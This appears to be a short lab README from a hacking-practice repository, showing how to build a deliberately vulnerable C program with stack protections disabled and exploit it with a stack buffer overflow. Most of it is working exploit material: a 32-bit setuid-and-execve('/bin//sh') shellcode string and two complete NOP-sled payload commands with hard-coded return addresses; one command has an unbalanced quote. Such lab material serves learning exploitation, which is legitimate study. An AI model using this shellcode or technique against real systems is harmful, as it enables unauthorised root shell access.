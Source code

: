 # Zen and the Art of Hacking (zataoh)

## Build:
```shell
gcc -g -z execstack -no-pie -o vuln vuln.c
```

buffer lives in between esp and ebp

```shell
info registers
x/30x $esp
x/2x $ebp
```

## Run:
```shell
./envexec.sh vuln $(python ...)
```

## Test if shellcode is working:
(Update test_shellcode with the shellcode you are testing)

### Compile test_shellcode.c
```shell
gcc -m32 -z execstack test_shellcode.c -o test_shell
./test_shellcode
```

## Shellcode (works):
```shell
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
```

## Buffer Size: 100
```shell
./envexec.sh vuln $(python -c 'print "\x90" * 76 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x60\xfd\xff\xbf"')
```
## Buffer size: 500
```shell
./envexec.sh vuln $(python -c 'print "\x90" * 476 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x30\xfa\xff\xbf")
```
